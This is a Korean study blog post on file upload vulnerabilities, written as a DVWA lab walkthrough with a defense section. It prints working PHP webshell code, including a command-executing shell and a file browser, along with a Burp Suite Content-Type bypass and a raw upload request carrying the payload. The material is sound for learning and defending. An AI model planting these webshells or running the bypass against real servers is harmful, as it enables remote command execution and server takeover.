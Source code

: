 ```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-08-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

이 공격은 [A04: 안전하지 않은 설계](https://hamap0.github.io/projects/owasp-top-10/2025/08/28/A04_Insecure-Design.html) 프로젝트 보고서에서 다룬 핵심 주제이다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   **확장자 필터링 우회:**
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   **MIME 타입 검증 우회:**
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### **기본 웹쉘**
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```
   ![FileuploadWebshell](/assets/images/FUpload_1.png)

#### **개선된 웹쉘 (간이 파일 브라우저)**
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

이 예시는 서버가 `Content-Type` 헤더를 신뢰할 때 발생하는 파일 업로드 취약점을 공격하는 과정을 보여준다.

#### **1. 요청 가로채기 (Intercept)**
1.  `shell.php` 파일을 준비하고 Burp Suite와 브라우저 프록시를 설정한다.
2.  Burp Suite의 `Proxy` > `Intercept` 탭을 `On` 상태로 설정한다.
3.  DVWA의 `File Upload` 페이지에서 `shell.php` 파일을 선택하고 `Upload` 버튼을 클릭하여 요청을 가로챈다.

#### **2. Content-Type 헤더 변조**
1.  가로챈 `POST` 요청 패킷에서 `Content-Type` 헤더를 확인한다. 초기 값은 `application/x-php`로 설정되어 있다.
    ```http
    ...
    Content-Disposition: form-data; name="uploaded"; filename="shell.php"
    Content-Type: application/x-php

    <?php system($_GET['cmd']); ?>
    ...
    ```
2.  `Content-Type: application/x-php` 라인을 `Content-Type: image/jpeg`로 수정한다.
3.  `Forward` 버튼을 눌러 변조된 요청을 서버로 전송한다.

#### **3. 업로드 확인 및 웹쉘 실행**
1.  서버의 필터링 로직이 `Content-Type`만 검증했다면 파일은 정상적으로 업로드되고 저장 경로(예: `../../hackable/uploads/shell.php`)가 출력된다.
2.  브라우저에서 해당 경로에 `?cmd=whoami` 파라미터를 추가하여 접속한다.
3.  화면에 `www-data`가 출력되면 웹쉘 업로드 및 명령어 실행에 성공한 것이다.
   ![FileuploadBurp](/assets/images/Fupload_2.png)

---

### 5. 방어 방안

*   **확장자 화이트리스트:** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   **파일 내용 검증:** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   **업로드 경로 제어:** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **기본 웹쉘 실행 이미지 제작**

1.  (준비) 위 `3. 웹쉘` 섹션의 '기본 웹쉘' 코드를 `shell.php` 파일로 저장합니다.
2.  DVWA의 `File Upload` 페이지를 통해 `shell.php` 파일을 업로드합니다.
3.  업로드가 성공하면 파일이 저장된 경로(예: `/hackable/uploads/shell.php`)가 화면에 표시됩니다.
4.  웹 브라우저에서 해당 경로로 접근하되, URL 끝에 실행할 명령어를 쿼리 스트링으로 추가합니다.
    *   **URL 예시:** `http://192.9.200.11/hackable/uploads/shell.php?cmd=whoami`
5.  브라우저 화면에 명령어의 결과인 `www-data`가 출력될 것입니다.
6.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  두 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
    *   **원인:** 주소창의 `?cmd=whoami` 부분
    *   **결과:** 페이지 본문에 출력된 `www-data`
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **MIME 타입 우회 공격 이미지 제작**

1.  **Burp Suite 요청 변조 화면 캡처:**
    *   `4. 사용 예시`의 2단계 과정에서, `Content-Type` 헤더를 `image/jpeg`로 수정한 Burp Suite의 `Proxy` 탭 화면을 스크린샷으로 찍어 **`MIME_Bypass_Request.png`**로 저장한다.
2.  **웹쉘 실행 결과 화면 캡처:**
    *   3단계 과정에서, `whoami` 명령어의 결과(`www-data`)가 출력된 브라우저 화면을 스크린샷으로 찍어 **`MIME_Bypass_Result.png`**로 저장한다.
3.  **최종 이미지 편집:**
    *   이미지 편집 프로그램에서 `MIME_Bypass_Request.png`(왼쪽)와 `MIME_Bypass_Result.png`(오른쪽)를 나란히 배치한다.
    *   왼쪽 이미지에서는 `Content-Type: image/jpeg`로 수정된 라인에 하이라이트를 적용한다.
    *   오른쪽 이미지에서는 주소창의 `...shell.php?cmd=whoami` 부분과 본문의 `www-data` 출력 결과에 하이라이트를 적용한다.
    *   두 이미지 사이에 화살표를 추가하여 왼쪽의 요청 변조가 오른쪽의 RCE 성공으로 이어졌음을 시각적으로 연결한다.
    *   수정된 이미지를 게시글에 삽입한다.